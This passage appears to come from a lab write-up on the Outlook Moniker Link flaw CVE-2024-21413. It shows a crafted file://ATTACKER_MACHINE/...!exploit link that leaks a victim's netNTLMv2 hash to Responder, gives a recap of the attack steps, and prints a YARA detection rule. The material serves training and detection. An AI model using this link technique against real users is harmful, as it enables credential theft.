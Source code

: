 ### 4. Victim’s Outlook
- Victim opens Outlook (already configured mailbox).
- They see the new email with subject CVE-2024-21413.
- They click the "Click me" link.
<img width="736" height="694" alt="Screenshot 2025-08-17 at 7 02 08 PM" src="https://github.com/user-attachments/assets/a91d88bf-8edd-4327-80a7-06dcce94f048" />
### 5. Capture of Credentials
- Outlook tries to load the file from file://ATTACKER_MACHINE/test!exploit.
- This forces SMB authentication, sending netNTLMv2 hash to the attacker.
- On the attacker’s terminal, Responder shows the captured hash.
<img width="776" height="372" alt="Screenshot 2025-08-17 at 7 02 51 PM" src="https://github.com/user-attachments/assets/47f1d4eb-4a07-4e6d-82e1-2b4509e11661" />

## Key Points to Remember
- Normal file:// links are blocked by Outlook’s Protected View.
- Adding !exploit bypasses this protection.
- Victim’s credentials (hash) are leaked even if the file/share does not exist.
- This is why the vulnerability is critical (CVSS 9.8).
## Quick Recap
- Create malicious email → insert Moniker Link with !.
- Send email to victim via Python script.
- Run Responder on attacker machine.
- Victim clicks link → Outlook leaks netNTLMv2 hash.
- Attacker now has victim’s credentials.
---
# YARA & Wireshark Analysis for CVE-2024-21413 (Outlook RCE)

## 1. YARA Rule
YARA rules are used to **detect malicious patterns** inside files, emails, or memory.  
Here, a **YARA rule created by Florian Roth** is used to detect emails that try to exploit **CVE-2024-21413**.

### Example YARA Rule
```yara
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {
   meta:
      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"
      author = "X__Junior, Florian Roth"
      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"
      date = "2024-02-17"
      modified = "2024-02-19"
      score = 75

   strings:
      $a1 = "Subject: "
      $a2 = "Received: "
      $xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:
      filesize < 1000KB
      and all of ($a*)
      and 1 of ($xr*)
}
```